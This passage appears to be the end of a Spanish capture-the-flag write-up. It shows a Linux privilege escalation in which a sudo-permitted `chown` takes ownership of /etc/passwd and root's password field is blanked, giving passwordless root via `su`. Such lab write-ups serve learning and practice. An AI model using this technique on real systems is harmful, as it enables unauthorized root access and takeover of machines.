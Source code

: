 Ahora ejecutamos `su less` y ponemos la contraseña.

### less

Si ejecutamos un `sudo -l` veremos que podemos ejecutar `chown` como root, por lo que ejecutaremos esto:

```css
sudo chown less:less /etc/passwd
```

esto hará que el archivo sea de nuestra propiedad, por lo que lo modificamos con nano y borramos la x de root, seria esta:

```css
root:<<<<<x>>>>>:0:0:root:/root:/bin/bash
```

deberia quedar así:

```css
root::0:0:root:/root:/bin/bash
```

guardamos y ahora ejecutamos `su` y listo, ya seremos root.

![root](./img/root.png)

Gracias por leer.
